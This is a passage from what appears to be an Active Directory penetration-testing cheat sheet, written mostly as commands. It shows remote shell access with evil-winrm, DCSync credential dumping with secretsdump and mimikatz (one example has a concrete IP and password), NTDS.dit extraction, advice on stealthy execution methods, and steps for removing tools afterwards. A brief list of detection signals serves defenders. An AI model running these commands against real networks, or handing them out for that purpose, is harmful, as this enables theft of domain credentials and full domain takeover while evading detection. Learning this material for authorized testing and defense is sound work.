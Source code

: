 ```sh
evil-winrm -i TARGET -u 'user' -p 'Pass'
```

Notes:

*   Use `--exec-method` in CME to try different exec paths (smbexec, wmiexec, psexec, etc.).
*   For stealth, prefer methods that do not leave persistent artifacts on disk (e.g., wmiexec).

* * *

## Escalation to Domain-Admin & domain takeover

If you gain privileged accounts or replication privileges, you can extract domain data.

DCSync (Impacket/secretsdump):

```sh
secretsdump.py -just-dc-ntlm DOMAIN/replicator:Pass@DC_IP

# Dump all ntlm
secretsdump.py example.local/flank:P@ssword@10.10.10.161 > hashes.out
```

NTDS.dit extraction (requires SYSTEM and file access):

*   Dump NTDS and SYSTEM hives, then use `secretsdump.py`/`ntdsutil` conversions.

Elevate and dump hashes:

```
runas /netonly /user:DOMAIN\user powershell

.\mimikatz.exe
privelege::debug
lsadump::dcsync /domain:DOMAIN.LOCAL /user:DOMAIN\administrator
```

* * *

## Cleanup & detection awareness

Housekeeping:

*   Remove uploaded collectors and tools (SharpHound, chisel, mimikatz if used).
*   Remove scheduled tasks or services created.
*   Keep a `postop.log` with exact commands and timestamps.

Detection signals:

*   High-rate LDAP queries / unusual filters.
*   Elevated Kerberos request patterns (many AS/TGS requests).
*   SharpHound collection and zip exfil.
*   DCSync RPC calls.

* * *

## Useful command snippets & cracking hints
